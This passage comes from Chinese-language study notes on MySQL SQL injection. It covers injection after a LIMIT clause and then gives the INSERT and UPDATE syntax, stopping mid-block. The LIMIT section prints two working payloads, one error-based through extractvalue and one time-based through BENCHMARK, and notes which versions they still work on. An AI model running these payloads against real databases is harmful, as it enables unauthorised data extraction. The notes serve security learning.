 
## 3号注入点
limit后的注入
参见p神的[博客](https://www.leavesongs.com/PENETRATION/sql-injections-in-mysql-limit-clause.html)
- 语句:
```sql
LIMIT 1,1 procedure analyse(extractvalue(rand(),concat(0x3a,version())),1); 
LIMIT 1,1 PROCEDURE analyse((select extractvalue(rand(),concat(0x3a,(IF(MID(version(),1,1) LIKE 5, BENCHMARK(5000000,SHA1(1)),1))))),1)
```
高版本貌似不可以了,5.5.53第一句还可以,第二句不行. 5.7.24都不可以.

# insert语句
insert语法如下:
```SQL
INSERT [LOW_PRIORITY | DELAYED | HIGH_PRIORITY] [IGNORE]
    [INTO] tbl_name
    [(col_name [, col_name] ...)]
    {VALUES | VALUE} (value_list) [, (value_list)] ...
    [ON DUPLICATE KEY UPDATE assignment_list]

INSERT [LOW_PRIORITY | DELAYED | HIGH_PRIORITY] [IGNORE]
    [INTO] tbl_name
    SET assignment_list
    [ON DUPLICATE KEY UPDATE assignment_list]

INSERT [LOW_PRIORITY | HIGH_PRIORITY] [IGNORE]
    [INTO] tbl_name
    [(col_name [, col_name] ...)]
    SELECT ...
    [ON DUPLICATE KEY UPDATE assignment_list]

value:
    {expr | DEFAULT}

value_list:
    value [, value] ...

assignment:
    col_name = value

assignment_list:
    assignment [, assignment] ...
```

# update语句
update语法如下
```sql
UPDATE [LOW_PRIORITY] [IGNORE] table_reference
    SET assignment_list
    [WHERE where_condition]
    [ORDER BY ...]
    [LIMIT row_count]

UPDATE [LOW_PRIORITY] [IGNORE] table_references
    SET assignment_list
    [WHERE where_condition]

value:
    {expr | DEFAULT}

assignment:
```